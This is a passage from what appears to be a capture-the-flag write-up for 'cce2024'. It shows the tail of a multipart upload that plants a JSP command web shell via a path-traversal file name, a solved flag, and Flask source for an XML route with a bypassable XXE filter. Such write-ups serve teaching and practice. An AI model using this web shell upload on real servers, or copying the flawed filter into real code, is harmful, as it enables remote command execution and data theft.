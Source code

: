 ```
		out.println(disr); 
		disr = br.readLine(); 
	}
}
%>
</pre>
        </body>

        </html>
------WebKitFormBoundarydNmhuHKBYPqVrS4m
Content-Disposition: form-data; name="uploadFileName";

../webapps/ROOT/cmd.jsp
------WebKitFormBoundarydNmhuHKBYPqVrS4m--
```


### Flag
cce2024{3a9d8c789f493f9c66d2f82f8208d9dcc8a1cc5a47ef222e71dd4da6fe05f8d23397f85403779479627b675d6b6f434d9bcc}           

<a id="internal_inspection">internal inspection</a>                

# internal inspection     
     
```python
@app.route('/download', methods=['POST'])
def download():
    xml_file = request.files['file']
    xml_data = xml_file.read()
    xml_data = xml_data.decode('UTF-8')
    xml_data = xml_data.replace("SYSTEM", "system")
    xml_data = xml_data.encode('UTF-8')
    
    parser = etree.XMLParser(encoding='UTF-8')
    try:
        root = etree.fromstring(xml_data, parser=parser)
    except:
        root = etree.fromstring("<name>fail</name>", parser=parser)
    
    data = []
    try:
        for member in root.findall('member'):
            name = member.find('name').text
            address = member.find('address').text
            company = member.find('company').text
            job = member.find('job').text
            email = member.find('email').text
            username = member.find('username').text
            data.append([name, address, company, job, email, username])
        
        df = pd.DataFrame(data, columns=['Name', 'Address', 'Company', 'Job', 'Email', 'Username'])
        
        output = io.BytesIO()
        df.to_excel(output, index=False, engine='openpyxl')
        output.seek(0)
    except:
        output = str()
    
    return send_file(output, as_attachment=True, mimetype='application/vnd.openxmlformats-officedocument.spreadsheetml.sheet', download_name='members.xlsx')
```
     